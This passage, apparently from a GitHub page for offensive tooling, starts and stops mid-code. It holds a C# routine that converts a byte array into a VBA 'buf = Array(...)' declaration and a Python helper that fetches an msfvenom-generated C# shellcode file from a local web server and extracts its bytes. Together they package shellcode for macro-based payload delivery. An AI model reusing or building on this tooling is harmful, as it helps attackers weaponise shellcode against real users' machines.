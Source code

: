 ```csharp
                        }

                        uint counter = 0;

                        StringBuilder hex = new StringBuilder(encoded.Length * 2);

                        foreach (byte b in encoded)
                        {
                            if (counter != encoded.Length - 1)
                                hex.AppendFormat("{0:D}, ", b);
                            else
                                hex.AppendFormat("{0:D}", b);
                            counter++;
                            if (counter % 50 == 0)
                            {
                                hex.AppendFormat("_{0}", Environment.NewLine);
                            }
                        }
                        Console.WriteLine("buf = Array(" + hex.ToString() + ")");
                    }
                    else
                    {
                        Console.WriteLine("The file does not contain a valid byte array declaration.");
                    }
                }
            }
            catch (Exception ex)
            {
                Console.WriteLine($"Error reading file: {ex.Message}");
            }
        }
    }
}
```

#### Python

`python helper2.py <msfvenom-generated csharp shellcode file>`

```python
import sys
import requests
import re

def main():
    # Check if an IP and filename were provided
    if len(sys.argv) != 2:
        print("Please provide filename as command-line arguments.")
        return

    url = f"http://127.0.0.1/{sys.argv[1]}"

    try:
        # Download the file content as a string directly into memory
        response = requests.get(url)
        response.raise_for_status()  # Raise an error for bad responses
        declaration = response.text.strip()

        # Use a regex to extract the byte values
        match = re.search(r'new byte\[\d+\] \{(.*?)\};', declaration, re.DOTALL)

        if match:
            byte_values = match.group(1)
```